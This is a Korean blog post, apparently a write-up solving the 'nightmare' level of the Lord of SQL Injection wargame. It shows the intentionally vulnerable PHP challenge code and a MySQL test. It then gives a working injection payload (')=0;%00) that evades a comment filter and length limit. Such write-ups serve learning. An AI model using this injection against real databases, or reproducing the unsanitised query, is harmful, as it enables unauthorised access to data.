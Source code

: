 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - nightmare 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `nightmare`이다.  

문제 이름 답게 엄청 고민 많이 했던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('') and id!='admin'
------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

이번에는 주석으로 사용했던 문자들이 다 필터링이 걸려 있다.  

그리고 글자 수도 6글자 이내로 적어야 한다는 제한도 있다.  

그럼 일단 주석에 대한 필터링도 우회해야 하고, `pw`에 `('')` 이런식으로 괄호가 생겨서 이 것도 어떻게 해결해야 할지 고민해야 했다.  

결론적으로 이건 문제를 못풀겠어서 인터넷을 찾아봤었다.  

쿼리를 작성할 때, `pw=1=1` 형태로도 쓸 수 있다.  

이럴 경우, `1=1`은 참이기 때문에 `pw=참`이 되어 쿼리가 정상적으로 실행된다.  

이미 쿼리에 `('')` 은 있으므로, 이 공백과 비교했을 때 참이될 수 있는 값은 `0`이다.  

이를 실제로 테스트 해 보기 위해 아래와 같이 `mysql`을 실행시켜보았다.  

```
mysql> select ''=0 ;
+------+
| ''=0 |
+------+
|    1 |
+------+
1 row in set (0.01 sec)

```

결과값이 1이 나오는 것을 알 수 있다.  

그래서 `')=0`을 넣고, 뒤의 나머지 조건을 무시하게 하기 위해서 `;`과 `null`을 넣어주었다.  

```
?pw=')=0;%00
```

그랬더니 문제를 풀 수 있었다.  

```php
------------------------------------------------------------------------------------------------
query : select id from prob_nightmare where pw=('')=0;') and id!='admin'
------------------------------------------------------------------------------------------------

NIGHTMARE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```

`NIGHTMARE Clear!!`
